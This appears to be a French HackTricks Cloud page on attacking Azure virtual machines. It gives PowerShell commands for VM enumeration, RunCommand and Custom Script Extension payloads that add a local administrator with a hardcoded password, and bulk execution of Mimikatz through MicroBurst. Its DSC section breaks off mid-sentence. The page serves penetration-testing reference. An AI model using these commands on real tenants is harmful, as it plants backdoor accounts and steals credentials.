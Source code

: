 # Az - Machines Virtuelles

<details>

<summary><strong>Soutenez HackTricks et bénéficiez d'avantages !</strong></summary>

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou si vous souhaitez accéder à la **dernière version de PEASS ou télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop) !
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**The PEASS Family**](https://opensea.io/collection/the-peass-family), notre collection d'[**NFTs**](https://opensea.io/collection/the-peass-family) exclusifs
* **Rejoignez** 💬 [**le groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez** moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm).

* **Partagez vos astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## Informations de base

Les machines virtuelles Azure sont l'un des plusieurs types de ressources informatiques évolutives à la demande qu'Azure offre. En général, vous choisissez une machine virtuelle lorsque vous avez besoin de plus de contrôle sur l'environnement informatique que les autres choix offrent. Cet article vous donne des informations sur ce que vous devez considérer avant de créer une machine virtuelle, comment la créer et comment la gérer.

## Énumération

```powershell
# Obtenir les VM lisibles
Get-AzVM | fl
# Lis les VM en cours d'exécution
Get-AzureRmVM -status | where {$_.PowerState -EQ "VM running"} | select ResourceGroupName,Name
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | fl *
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | select -ExpandProperty NetworkProfile

# Obtenir l'interface et l'adresse IP
Get-AzNetworkInterface -Name <interface_name>
Get-AzPublicIpAddress -Name <iface_public_ip_id>

# Obtenir les extensions installées
Get-AzVMExtension -ResourceGroupName <res_group_name> -VMName <name>

Get-AzVM | select -ExpandProperty NetworkProfile # Obtenir le nom du connecteur réseau de la VM
Get-AzNetworkInterface -Name <name> # Obtenir les informations du connecteur réseau (comme l'adresse IP)
```

## **Exécuter des commandes dans une VM**

### **Connexion AAD dans une VM**

Il est possible de permettre l'accès aux utilisateurs authentifiés via AzureAD. Par exemple, en essayant d'accéder à une **VM Linux** : `ssh username@azure-corp.com@1.1.1.1` (il est important d'**utiliser l'e-mail** avec azurecorp utilisé lors de la tentative de connexion), vous pouvez obtenir une erreur comme :

{% code overflow="wrap" %}
```
(username@azure-corp.com@1.1.1.1) This preview capability is not for production use. When you sign in, verify the name of the app on the sign-in screen is "Azure Linux VM Sign-in" and the IP address of the target VM is correct.

To sign in, use a web browser to open the page https://microsoft.com/devicelogin and enter the code DT4PNSTGR to authenticate. Press ENTER when ready.
```
{% endcode %}

Il suffit de **suivre ces instructions** en allant sur [https://microsoft.com/devicelogin](https://microsoft.com/devicelogin) et en indiquant le code, en utilisant l'e-mail et le mot de passe comme identifiants et vous pourrez vous connecter via SSH (si cet utilisateur a suffisamment de permissions pour le faire : rôle `Virtual Machine Administrator Login` ou `Virtual Machine User Login`).

### **Exécuter une commande**

```powershell
# L'autorisation permettant cela est Microsoft.Compute/virtualMachines/runCommand/action
Invoke-AzVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose
## Une autre façon
Invoke-AzureRmVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose

# Contenu du script
$passwd = ConvertTo-SecureString "Welcome2022!" -AsPlainText -Force
New-LocalUser -Name new_user -Password $passwd 
Add-LocalGroupMember -Group Administrators -Member new_user
```

```powershell
# Essayez de l'exécuter sur chaque machine
Import-module MicroBurst.psm1
Invoke-AzureRmVMBulkCMD -Script Mimikatz.ps1 -Verbose -output Output.txt
```

### **Exécuter une extension de script personnalisée**

Les extensions de machine virtuelle Azure (VM) sont de **petites applications** qui fournissent une configuration post-déploiement et des tâches d'automatisation sur les **VM Azure**. Par exemple, si une machine virtuelle nécessite une installation de logiciel, une protection antivirus ou la possibilité d'exécuter un script à l'intérieur, vous pouvez utiliser une extension VM.

Par conséquent, si vous avez accès pour l'écrire, vous pouvez exécuter du code arbitraire :

```powershell
# Microsoft.Compute/virtualMachines/extensions/write
Set-AzVMExtension -ResourceGroupName "Research" -ExtensionName "ExecCmd" -VMName "infradminsrv" -Location "Germany West Central" -Publisher Microsoft.Compute -ExtensionType CustomScriptExtension -TypeHandlerVersion 1.8 -SettingString '{"commandToExecute":"powershell net users new_user Welcome2022. /add /Y; net localgroup administrators new_user /add"}'
```

### DesiredConfigurationState

**DesiredConfigurationState (DSC)** est similaire à Ansible, mais c'est un outil dans PowerShell qui permet à un hôte d'être configuré via du code. DSC a sa propre extension dans Azure qui permet le téléchargement de **fichiers de configuration**. Les fichiers de configuration DSC [sont assez pointilleux en ce qui concerne la syntaxe](https://docs.microsoft.com/en-us/powershell/dsc/getting-started/wingettingstarted?view=dsc-1.1#define-a-configuration-and-generate-the-configuration-document), cependant l'extension DSC est très crédule et exécutera **aveuglément n'importe quelle commande** tant qu'elle suit un certain format, comme indiqué dans la figure 5.

<figure><img src="../../.gitbook/assets/image (85).png" alt=""><figcaption></figcaption></figure>

Cela peut
## Références

* [https://learn.microsoft.com/en-us/azure/virtual-machines/overview](https://learn.microsoft.com/en-us/azure/virtual-machines/overview)
* [https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/](https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/)

<details>

<summary><strong>Soutenez HackTricks et bénéficiez d'avantages !</strong></summary>

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou si vous souhaitez accéder à la **dernière version de PEASS ou télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop) !
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**The PEASS Family**](https://opensea.io/collection/the-peass-family), notre collection d'[**NFTs**](https://opensea.io/collection/the-peass-family) exclusifs
* **Rejoignez** 💬 [**le groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez** moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm).
* **Partagez vos astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>